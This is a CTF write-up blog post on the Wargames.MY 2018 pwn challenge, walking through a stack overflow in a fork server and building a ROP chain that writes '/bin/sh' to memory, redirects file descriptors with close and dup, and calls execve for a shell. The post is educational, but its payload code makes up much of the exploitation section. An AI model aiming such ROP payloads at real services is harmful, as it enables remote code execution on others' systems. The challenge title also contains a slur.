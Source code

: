 ```yaml
---
layout: post
title: Wargames.MY 2018 - faggot2.0 (pwn)
ctf: Wargames.MY 2018
permalink: /wargamesmy-18/pwn
---
```


> [challenge][file]

## Static Analysis
The program was rather straightforward, running as a fork server with the following pseudocode.

```c
int main() {
    int connectionfd;

    while(1) {
        int socketfd = socket(AF_INET, SOCK_STREAM, IPPROTO_IP);
        setsockopt(socketfd, SOL_SOCKET, SO_REUSEADDR, [1], 4);
        bind(socketfd, {sa_family=AF_INET, sin_port=htons(31337), sin_addr=inet_addr("0.0.0.0")}, 16);
        listen(socketfd, 5);
        connectionfd = accept(socketfd, {sa_family=AF_INET, sin_port=htons(51320), sin_addr=inet_addr("127.0.0.1")}, [16]));

        if (!fork())    // if fork() == 0, then this is the child, then break out of listening loop
            break;
    }

    // ran by child process
    close(socketfd);

    char buf[15];
    read(connectionfd, buf, 0xf);
    int nbytes = atoi(buf);

    char biggerbuf[0x80];
    read(connectionfd, biggerbuf, nbytes);
}
```

To get the enums for the socket API functions easily, I ran `strace` on the challenge binary, which shows all system calls being called by the process.

As we can see, we can choose how many bytes we want to read. Immediate thought is to use [ROP](http://codearcana.com/posts/2013/05/28/introduction-to-return-oriented-programming-rop.html). A good place to learn ROP would be the [ROP Emporium](https://ropemporium.com).

`checksec ./challenge`
```
[*] '/root/ctfs/wargamesmy/faggot2/challenge'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

CANARY and PIE were not enabled for this challenge, which makes things easier.

## Exploitation
As the challenge binary itself implements the server, the best way to debug my exploit is by attaching GDB to the child process (aka the client) every time I want to test it.

For the sake of convenience, my terminal is set up this way.

![workenv][workenv]

The top left pane, running `strace ./challenge`, will tell me the pid of the child process, which I can attach to using GDB in the bottom left pane.

By passing in a De-Brujin pattern, we find that a padding of `152` bytes is needed until we reach the return address in the stack.

### ROP Chain
As we are given an arbitrary amount of bytes to write, there aren't really any restrictions on our ROP chain apart from the gadgets we can find.

Using [ropper](https://github.com/sashs/Ropper), I managed to find gadgets for controlling registers `rax`, `rdi`, `rsi` and `rbp`, and also to write `eax` into a memory relative to `rbp`.

```py
POP_RAX_RET = 0x4009d2
POP_RDI_RET = 0x400ba3
POP_RBP_RET = 0x400840
POP_RSI_RET = 0x400ba1
SYSCALL = 0x4009d4
MOV_DWORD = 0x4009cf  # mov dword ptr [rbp - 8], eax; pop rax; ret
```

So now it's all left to constructing the rop chain.

#### `execve`
The most convenient way is to just call `execve("/bin/sh", 0, 0)`. But we need a pointer referring to memory containing the string `"/bin/sh"`. 

Looking into the mappings of the process, we can write into this region.

```
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /root/ctfs/wargamesmy/faggot
```

With the gadgets found earlier, we can write `"/bin/sh"` into address `0x601500` 4 bytes a time using `eax`.

```py
# pop rbp, ret;  sets rbp to 0x601508
# pop rax, ret;  sets rax to "/bin\x00\x00\x00\x00", aka eax to "/bin/sh"
# mov dword ptr [rbp - 8], eax; pop rax; ret;  we can now write "/bin" into 0x601508

# now, do it again for "/sh\x00"
# skipping pop rax, ret because the previous gadget already contains it
# pop rbp, ret;
# mov dword ...

payload += p64(POP_RBP_RET) + p64(0x601508)
payload += p64(POP_RAX_RET) + "/bin\x00\x00\x00\x00"
payload += p64(MOV_DWORD) + "/sh\x00\x00\x00\x00\x00"
payload += p64(POP_RBP_RET) + p64(0x60150c)
payload += p64(MOV_DWORD) + p64(0)
```

With `"/bin/sh"` in place, we can point `rdi` to it, clear `rsi`, and set `rax` to `0x3b` with is the syscall number of `execve`. We ignore `rdx` as it was fortunately already set to 0 by the program itself before reaching here.
```py
# execve("/bin/sh", 0, 0);

payload += p64(POP_RDI_RET) + p64(0x601500)
payload += p64(POP_RSI_RET) + p64(0) + p64(0)
payload += p64(POP_RAX_RET) + p64(0x3b)
payload += p64(SYSCALL)           
```

Now we can run the send the payload and get our shell. But it doesn't work? Nothing happens. 

#### `close` and `dup`
Recall that when the server connects to our client, it uses a different file descriptor for IO instead of the standard `stdin`, `stdout` and `stderr` in 0, 1 and 2.

We need to replace 0, 1 and 2 with the file descriptor for our client. We can do that by first closing those 3 files, using the `close` syscall. Then use `dup(connectionfd)` to duplicate our client's `fd`. 

`dup` works by duplicating the information of the given file to the lowest file descriptor number possible that is not opened yet, in which case its 0, 1 and 2 which we just closed.

Similar to `execve` above, we can set our registers to replace the file descriptors.
```py
# close(0); close(1); close(2)           
payload += p64(POP_RDI_RET) + p64(0)              
payload += p64(POP_RAX_RET) + p64(3)              
payload += p64(SYSCALL)
payload += p64(POP_RDI_RET) + p64(1)
payload += p64(POP_RAX_RET) + p64(3)                                                     
payload += p64(SYSCALL)
payload += p64(POP_RDI_RET) + p64(2)                                                     
payload += p64(POP_RAX_RET) + p64(3)
payload += p64(SYSCALL)

# dup(4)
payload += p64(POP_RDI_RET) + p64(4)
payload += p64(POP_RAX_RET) + p64(32)
payload += p64(SYSCALL)
payload += p64(POP_RDI_RET) + p64(4)
payload += p64(POP_RAX_RET) + p64(32)
payload += p64(SYSCALL)   
```

Now we can send the payload, and get a working shell!

Not quite yet. As you can see, we are duplicating the file number 4. This is based on the assumption that no other clients are connected to the server at this point in time. This is because 0, 1 and 2 are occupied by `stdin`, `stdout` and `stderr`, 3 is occupied by `socketfd`, making 4 the lowest available file number, which is assigned to the next client that connects. Depending on the setup of the challenge, if say there are 5 clients connected at this time, then we will be assigned file number 9.

Well, with the assumption that there aren't a lot of teams in this CTF, we can run this exploit a few more times if it fails.

The full exploit script can be found [here][xpl].

***

[file]:{{site.baseurl}}/ctfs/wargamesmy-18/faggot2/challenge
[workenv]:{{site.baseurl}}/ctfs/wargamesmy-18/faggot2/workenv.png
[xpl]:{{site.baseurl}}/ctfs/wargamesmy-18/faggot2/xpl.py